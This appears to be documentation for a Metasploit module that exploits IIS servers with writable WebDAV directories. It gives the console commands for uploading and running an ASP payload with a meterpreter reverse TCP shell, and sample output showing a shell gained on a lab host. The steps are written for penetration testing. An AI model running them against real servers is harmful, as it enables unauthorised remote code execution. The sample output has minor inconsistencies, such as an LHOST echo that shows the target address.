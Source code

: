 ## Description

This module can be used to execute a payload on IIS servers that have world-writeable directories. The payload is uploaded as an ASP script via a WebDAV PUT request. A WebDAV PUT request is used for uploading file on webdav server. 

**IMPORTANT:** The target IIS machine must meet these conditions to be considered as exploitable: It allows 'Script resource access', Read and Write permission, and supports ASP.


## WebDAV

Web Distributed Authoring and Versioning (WebDAV) is an extension of the Hypertext Transfer Protocol (HTTP) that allows clients to perform remote Web content authoring operations. WebDAV is defined in RFC 4918 by a working group of the Internet Engineering Task Force.

## Verification Steps

1. Do: ```use exploit/windows/iis/iis_webdav_upload_asp```
2. Do: ```set payload windows/meterpreter/reverse_tcp```
2. Do: ```set LHOST [IP]```
3. Do: ```set RHOST [IP]```
3. Do: ```set PATH / [PATH]```
4. Do: ```run```

## Sample Output

```
msf > use exploit/windows/iis/iis_webdav_upload_asp
msf exploit(iis_webdav_upload_asp) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(iis_webdav_upload_asp) > set RHOST 172.16.176.54
RHOST => 172.16.176.54
msf exploit(iis_webdav_upload_asp) > set LHOST 172.16.176.56
LHOST => 172.16.176.54
msf exploit(iis_webdav_upload_asp) > set path /upload/test.asp
path => /upload/test.asp
msf exploit(iis_webdav_upload_asp) > run
msf exploit(iis_webdav_upload_asp) > exploit

[*] Started reverse handler on 172.16.176.56:4444
[*] Uploading 613830 bytes to /upload/test.txt...
[*] Moving /upload/test.txt to /upload/test.asp...
[*] Executing /upload/test.asp...
[*] Sending stage (770048 bytes) to 172.16.176.54
[*] Deleting /upload/test.asp, this doesn't always work...
[!] Deletion failed on /upload/test.asp [403 Forbidden]

meterpreter > getuid
Server username: JUAN-C0DE875735\IWAM_JUAN-C0DE875735
meterpreter >
```





